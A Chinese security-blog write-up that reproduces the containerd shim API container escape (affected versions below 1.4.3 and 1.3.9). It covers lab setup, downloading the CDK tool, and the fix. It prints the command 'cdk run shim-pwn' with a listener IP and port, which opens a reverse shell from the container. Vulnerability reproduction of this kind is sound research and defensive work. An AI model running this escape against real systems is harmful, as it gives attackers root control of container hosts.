 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tyxJhqcZ3QTSjAqTZZSgrA)

  

**上方蓝色字体关注我们，一起学安全！**

**作者：水木逸轩****@Timeline Sec  
**

**本文字数：539**

**阅读时长：2～3min**

**声明：请勿用作违法用途，否则后果自负**

  

**0x01 简介**  

  
  

Containerd 是一个工业级标准的容器运行时，它强调简单性、健壮性和可移植性。Containerd 可以在宿主机中管理完整的容器生命周期：容器镜像的传输和存储、容器的执行和管理、存储和网络等。

  

**0x02 漏洞概述**  

  
  

在版本1.3.9和1.4.3之前的容器中，容器填充的API不正确地暴露给主机网络容器。填充程序的API套接字的访问控制验证了连接过程的有效UID为0，但没有以其他方式限制对抽象Unix域套接字的访问。这将允许在与填充程序相同的网络名称空间中运行的恶意容器（有效UID为0，但特权降低）导致新进程以提升的特权运行。

  

**0x03 影响版本**  

  
  

containerd < 1.4.3

containerd < 1.3.9

  

**0x04 环境搭建**  

  
  

Docker版本查看：  

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jiasNWCgWFauh8IQwJBYCyCTQJSYWjdEiaFvYJqEibxnZVrYrFx47PQpjbog/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

符合要求

查看docker宿主机内核版本：  

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jias2T9HMVIoKkJxUw1E5MibCpR3JaqM9FfY2zH53c1ibOsAQibyVCOx3DjSg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

下载poc

```
https://github.com/Xyntax/CDK/releases/tag/0.1.6
```

  

将与内核类型对应的poc复制到虚拟机的容器中  

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jiasFd4MAy82NPgzv8jSBGb31QLZeNNwETqOSsdpjVc68NEibbpibxIu71QQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)  

  

```
docker cp cdk_linux_386 容器ID:/tmp
```

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jiasfLU26lc5NiaicibtaY9GVRnPXNDWuibFFSRkLAW1TpU1Nz4scBLLg7f0Yw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)  

  

docker ps查看当前运行的镜像：  

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jiasdYgeSXBUOibhB1nLL4HT4pMRticcRuc3taqCEe883AjeyhWhTib0gkb5A/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

进入镜像，poc已复制到镜像中：  

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jias92VMja3LsbNI1xtpVrvBv634stI8GefxhCj20Mz0nWX8WVEGWDaaag/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

**0x05 漏洞复现**  

  
  

执行poc，到监听侧进行查看

```
./cdk_linux_386 run shim-pwn 192.168.254.132 6666
```

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jiasez0800BCKpNujafWRPc4ia3FhB9U1s6ryf5I2beFQ1EZnDeMbH8DBiaw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjRFVUuGZEIFbicEYOd20jiasKFrZzLclqrzMY6VaCNV3THYpK3czsTFpcicW0eGMNfqHRNZCLgMzYZQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

反弹成功

  

**0x06 修复方式**  

  
  
  

升级 containerd 至最新版本。

  

```
**参考链接：**
```

https://blog.csdn.net/weixin_45728976/article/details/110452543

https://blog.csdn.net/weixin_45728976/article/details/110694414

https://mp.weixin.qq.com/s/4VPle19F2gKmhrMrgYKroQ

  

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行